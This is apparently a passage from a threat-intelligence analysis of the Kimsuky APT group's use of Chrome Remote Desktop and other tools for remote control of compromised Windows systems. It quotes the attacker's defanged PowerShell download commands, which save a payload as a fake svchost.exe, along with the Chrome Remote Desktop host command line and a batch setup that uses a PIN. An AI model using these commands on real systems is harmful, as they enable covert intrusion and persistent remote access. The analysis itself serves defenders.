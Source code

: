 

> powershell wget hxxp://****[.]kr/gnuboard4/ngsvc.dat -outfile c:\programdata\svchost.exe
> powershell wget hxxps://bigfile.mail.naver[.]com/download?fid=lekqm6cmwzu9hqujfovzfq2lfamjkogzkqgrkoewkoeqkabjkxmlkaulfqula3ydaxgrp63cm4u9mopvmqbmpxm/kzk0kzewkxbmfqvxp2== -outfile c:\programdata\svchost.exe




 Chrome Remote Desktop

After obtaining control over the infected system using Backdoor malware such as AppleSeed and Meterpreter, the Kimsuky APT group installed additional malware for remote control of the GUI environment. If Windows RDP protocol is used, the aforementioned malware would be used. Installation of RDP Wrapper is a behavior identified in multiple attack cases.
Of course, there are cases where remote desktop control is attained through developing VNC malware such as TinyNuke or TightVNC themselves, instead of using RDP protocols. [8] Recently, there have been identified cases where Google’s Chrome Remote Desktop was used.
Google provides a feature called Chrome Remote Desktop. When the Remote Desktop program is installed on a certain system with the user account, remote control over said system is provided in another system via the Chrome web browser. Ordinarily, most cases of its use involve remote control being configured in a Chrome browser of the system to be controlled remotely, but Chrome also supports a method where the remote control host program can be installed directly.
For example, the Chrome Remote Control host program can be installed on the device to be controlled remotely and command line commands can be executed with the following arguments. These commands can be created after logging into the Chrome web browser, and a different authentication code is used each time.



“%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe”
–code=”Authentication Code”
–redirect-url=”hxxps://remotedesktop.google[.]com/_/oauthredirect”
–name=%COMPUTERNAME%



Figure 6. Chrome Remote Desktop host program execution command
After executing the above commands, when the PIN is entered, the Chrome web browser subsequently shows that the remote control target device is online. Connecting to this device and entering the PIN entered upon executing the Chrome Remote Control host allows the target system to be controlled remotely via the Chrome web browser.
Figure 7. Online remote control target device
The threat actor first transmitted the following Powershell command to AppleSeed to install the Chrome Remote Desktop host installer, and after installation is complete, installed the 23.bat file which controls the Chrome Remote Desktop host.
Figure 8. Installation of a Batch file that executes the Chrome Remote Desktop host



> powershell wget hxxps://dl.google[.]com/dl/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi -outfile c:\programdata\cm.msi
> powershell wget hxxp://****[.]kr/gnuboard4/23.bat -outfile c:\programdata\23.bat



The 23.bat file is similar to the above Chrome Remote Desktop execution command. The “-pin” argument was also used to enable it to run without additional input from the command line. The authentication code used in the attack was created with the threat actor’s Google account, and the threat actor would have been able to control the infected system through their Chrome web browser.
Figure 9. Contents of 23.bat
